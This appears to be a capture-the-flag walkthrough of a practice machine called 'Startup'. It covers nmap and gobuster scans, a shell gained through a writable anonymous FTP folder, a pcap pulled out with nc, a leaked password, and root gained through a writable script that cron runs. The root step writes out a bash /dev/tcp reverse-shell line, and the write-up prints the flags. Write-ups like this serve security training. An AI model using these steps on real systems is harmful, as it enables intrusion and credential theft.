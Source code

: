 > Startup

**export IP=10.10.253.188**

# Nmap

sudo nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.107.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -t 20 -x php,txt,css,sql,bak,zip,cgi -o gobuster/initial

```
/files
```

Looks the files put in FTP dir are being reverted here. Let's gain a reverse shell using this.

# recipie.txt

```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

And in `incidents` folder we ca find `suspicious.pcapng` and let's transfer it to our system using ncat.

nc -l -p 1000 > suspicious.pcapng

nc -w 3 10.8.107.21 1000 < suspicious.pcapng

We get the file an on inspecting it we can get the password of lennie.

`c4ntg3t3n0ughsp1c3`

# user.txt

```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

In Lennie's home we can find a scripts directoru and a `planner.sh` script which is owned by root.

```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

And `print.sh` is owned by lennie.

Let's put a reverse shell `bash -i >& /dev/tcp/<IP>/<port> 0>&1` in there and wait for it!!

# root.txt

```
THM{f963aaa6a430f210222158ae15c3d76d}
```